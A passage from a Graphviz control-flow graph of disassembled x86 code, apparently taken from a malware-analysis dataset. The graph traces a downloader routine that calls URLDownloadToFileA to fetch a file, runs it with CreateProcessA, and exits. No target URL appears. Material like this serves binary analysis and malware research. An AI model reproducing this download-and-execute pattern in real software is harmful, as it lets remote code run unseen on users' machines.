a0x00401360je_0x0040137a -> a0x00401362movl_0x403118UINT32_edi [color="#000000",label="F"];
a0x00401362movl_0x403118UINT32_edi -> a0x00401367decl_edi [color="#000000"];
a0x00401367decl_edi -> a0x00401368movb_0x1edi__al [color="#000000"];
a0x00401368movb_0x1edi__al -> a0x0040136bincl_edi [color="#000000"];
a0x0040136bincl_edi -> a0x0040136ctestb_al_al [color="#000000"];
a0x0040136ctestb_al_al -> a0x0040136ejne_0x00401368 [color="#000000"];
a0x0040136ejne_0x00401368 -> a0x00401368movb_0x1edi__al [color="#000000",label="T"];
a0x0040136ejne_0x00401368 -> a0x00401370movw_0x004020f0_dx [color="#000000",label="F"];
a0x00401370movw_0x004020f0_dx -> a0x00401377movw_dx_edi_ [color="#000000"];
a0x00401377movw_dx_edi_ -> a0x0040137amovl_0x403010UINT32_eax [color="#000000"];
a0x0040137amovl_0x403010UINT32_eax -> a0x0040137fmovl_eax_edx [color="#000000"];
a0x0040137fmovl_eax_edx -> a0x00401381movb_eax__cl [color="#000000"];
a0x00401381movb_eax__cl -> a0x00401383incl_eax [color="#000000"];
a0x00401383incl_eax -> a0x00401384testb_cl_cl [color="#000000"];
a0x00401384testb_cl_cl -> a0x00401386jne_0x00401381 [color="#000000"];
a0x00401386jne_0x00401381 -> a0x00401381movb_eax__cl [color="#000000",label="T"];
a0x00401386jne_0x00401381 -> a0x00401388movl_0x403118UINT32_edi [color="#000000",label="F"];
a0x00401388movl_0x403118UINT32_edi -> a0x0040138dsubl_edx_eax [color="#000000"];
a0x0040138dsubl_edx_eax -> a0x0040138fdecl_edi [color="#000000"];
a0x0040138fdecl_edi -> a0x00401390movb_0x1edi__cl [color="#000000"];
a0x00401390movb_0x1edi__cl -> a0x00401393incl_edi [color="#000000"];
a0x00401393incl_edi -> a0x00401394testb_cl_cl [color="#000000"];
a0x00401394testb_cl_cl -> a0x00401396jne_0x00401390 [color="#000000"];
a0x00401396jne_0x00401390 -> a0x00401390movb_0x1edi__cl [color="#000000",label="T"];
a0x00401396jne_0x00401390 -> a0x00401398movl_eax_ecx [color="#000000",label="F"];
a0x00401398movl_eax_ecx -> a0x0040139ashrl_0x2UINT8_ecx [color="#000000"];
a0x0040139ashrl_0x2UINT8_ecx -> a0x0040139dmovl_edx_esi [color="#000000"];
a0x0040139dmovl_edx_esi -> a0x0040139frepz_movsl_ds_esi__es_edi_ [color="#000000"];
a0x0040139frepz_movsl_ds_esi__es_edi_ -> a0x004013a1movl_eax_ecx [color="#000000"];
a0x004013a1movl_eax_ecx -> a0x004013a3andl_0x3UINT8_ecx [color="#000000"];
a0x004013a3andl_0x3UINT8_ecx -> a0x004013a6repz_movsb_ds_esi__es_edi_ [color="#000000"];
a0x004013a6repz_movsb_ds_esi__es_edi_ -> a0x004013a8pushl_0x403470UINT32 [color="#000000"];
a0x004013a8pushl_0x403470UINT32 -> a0x004013adxorl_eax_eax [color="#000000"];
a0x004013adxorl_eax_eax -> a0x004013afmovl_0x50UINT32_ecx [color="#000000"];
a0x004013afmovl_0x50UINT32_ecx -> a0x004013b4movl_0x403470UINT32_edi [color="#000000"];
a0x004013b4movl_0x403470UINT32_edi -> a0x004013b9pushl_0x403118UINT32 [color="#000000"];
a0x004013b9pushl_0x403118UINT32 -> a0x004013berepz_stosl_eax_es_edi_ [color="#000000"];
a0x004013berepz_stosl_eax_es_edi_ -> a0x004013c0call_FindFirstFileA_kernel32_dll [color="#000000"];
a0x004013c0call_FindFirstFileA_kernel32_dll -> FindFirstFileA_kernel32_dll [color="#000000"];
FindFirstFileA_kernel32_dll -> a0x004013c6cmpl_0xffffffffUINT8_eax [color="#000000"];
a0x004013c6cmpl_0xffffffffUINT8_eax -> a0x004013c9movl_eax_0x004036c8 [color="#000000"];
a0x004013c9movl_eax_0x004036c8 -> a0x004013ceje_0x004013f7 [color="#000000"];
a0x004013ceje_0x004013f7 -> a0x004013f7pushl_0x4020e4UINT32 [color="#000000",label="T"];
a0x004013f7pushl_0x4020e4UINT32 -> a0x004013fccall_ebx [color="#000000"];
a0x004013fccall_ebx -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x004013femovl_FreeLibrary_kernel32_dll_ebp [color="#000000"];
a0x004013femovl_FreeLibrary_kernel32_dll_ebp -> a0x00401404pushl_0x0UINT8 [color="#000000"];
a0x00401404pushl_0x0UINT8 -> a0x00401406movl_eax_esi [color="#000000"];
a0x00401406movl_eax_esi -> a0x00401408testl_esi_esi [color="#000000"];
a0x00401408testl_esi_esi -> a0x0040140apushl_0x0UINT8 [color="#000000"];
a0x0040140apushl_0x0UINT8 -> a0x0040140cpushl_0x403118UINT32 [color="#000000"];
a0x0040140cpushl_0x403118UINT32 -> a0x00401411je_0x00401427 [color="#000000"];
a0x00401411je_0x00401427 -> a0x00401413pushl_0x403338UINT32 [color="#000000",label="F"];
a0x00401413pushl_0x403338UINT32 -> a0x00401418pushl_0x0UINT8 [color="#000000"];
a0x00401418pushl_0x0UINT8 -> a0x0040141acall_0x004036c4 [color="#000000"];
a0x0040141acall_0x004036c4 -> URLDownloadToFileA_Urlmon_dll [color="#000000"];
URLDownloadToFileA_Urlmon_dll -> a0x00401420pushl_esi [color="#000000"];
a0x00401420pushl_esi -> a0x00401421movl_eax_ebx [color="#000000"];
a0x00401421movl_eax_ebx -> a0x00401423call_ebp [color="#000000"];
a0x00401423call_ebp -> FreeLibrary_kernel32_dll [color="#000000"];
FreeLibrary_kernel32_dll -> a0x00401425jmp_0x00401436 [color="#000000"];
a0x00401425jmp_0x00401436 -> a0x00401436xorl_eax_eax [color="#000000"];
a0x00401436xorl_eax_eax -> a0x00401438movl_0x11UINT32_ecx [color="#000000"];
a0x00401438movl_0x11UINT32_ecx -> a0x0040143dleal_0x2cesp__edi [color="#000000"];
a0x0040143dleal_0x2cesp__edi -> a0x00401441repz_stosl_eax_es_edi_ [color="#000000"];
a0x00401441repz_stosl_eax_es_edi_ -> a0x00401443leal_0x1cesp__ecx [color="#000000"];
a0x00401443leal_0x1cesp__ecx -> a0x00401447pushl_ecx [color="#000000"];
a0x00401447pushl_ecx -> a0x00401448leal_0x30esp__edx [color="#000000"];
a0x00401448leal_0x30esp__edx -> a0x0040144cpushl_edx [color="#000000"];
a0x0040144cpushl_edx -> a0x0040144dpushl_eax [color="#000000"];
a0x0040144dpushl_eax -> a0x0040144epushl_eax [color="#000000"];
a0x0040144epushl_eax -> a0x0040144fpushl_eax [color="#000000"];
a0x0040144fpushl_eax -> a0x00401450pushl_eax [color="#000000"];
a0x00401450pushl_eax -> a0x00401451pushl_eax [color="#000000"];
a0x00401451pushl_eax -> a0x00401452pushl_eax [color="#000000"];
a0x00401452pushl_eax -> a0x00401453pushl_0x403118UINT32 [color="#000000"];
a0x00401453pushl_0x403118UINT32 -> a0x00401458pushl_eax [color="#000000"];
a0x00401458pushl_eax -> a0x00401459movl_0x44UINT32_0x54esp_ [color="#000000"];
a0x00401459movl_0x44UINT32_0x54esp_ -> a0x00401461call_CreateProcessA_kernel32_dll [color="#000000"];
a0x00401461call_CreateProcessA_kernel32_dll -> CreateProcessA_kernel32_dll [color="#000000"];
CreateProcessA_kernel32_dll -> a0x00401467movl_0x004036bc_ecx [color="#000000"];
a0x00401467movl_0x004036bc_ecx -> a0x0040146dtestl_ecx_ecx [color="#000000"];
a0x0040146dtestl_ecx_ecx -> a0x0040146fje_0x00401499 [color="#000000"];
a0x0040146fje_0x00401499 -> a0x00401471movl_0x004036c0_eax [color="#000000",label="F"];
a0x00401471movl_0x004036c0_eax -> a0x00401476testl_eax_eax [color="#000000"];
a0x00401476testl_eax_eax -> a0x00401478je_0x00401499 [color="#000000"];
a0x00401478je_0x00401499 -> a0x0040147amovl_0x10esp__eax [color="#000000",label="F"];
a0x0040147amovl_0x10esp__eax -> a0x0040147etestl_eax_eax [color="#000000"];
a0x0040147etestl_eax_eax -> a0x00401480je_0x00401499 [color="#000000"];
a0x00401480je_0x00401499 -> a0x00401499movl_0x14esp__ecx [color="#000000",label="T"];
a0x00401499movl_0x14esp__ecx -> a0x0040149dpushl_ecx [color="#000000"];
a0x0040149dpushl_ecx -> a0x0040149ecall_ebp [color="#000000"];
a0x0040149ecall_ebp -> FreeLibrary_kernel32_dll [color="#000000"];
FreeLibrary_kernel32_dll -> a0x004014a0movl_0x18esp__edx [color="#000000"];
a0x004014a0movl_0x18esp__edx -> a0x004014a4pushl_edx [color="#000000"];
a0x004014a4pushl_edx -> a0x004014a5call_ebp [color="#000000"];
a0x004014a5call_ebp -> FreeLibrary_kernel32_dll [color="#000000"];
FreeLibrary_kernel32_dll -> a0x004014a7pushl_0x0UINT8 [color="#000000"];
a0x004014a7pushl_0x0UINT8 -> a0x004014a9call_ExitProcess_kernel32_dll [color="#000000"];
a0x004014a9call_ExitProcess_kernel32_dll -> ExitProcess_kernel32_dll [color="#000000"];
}

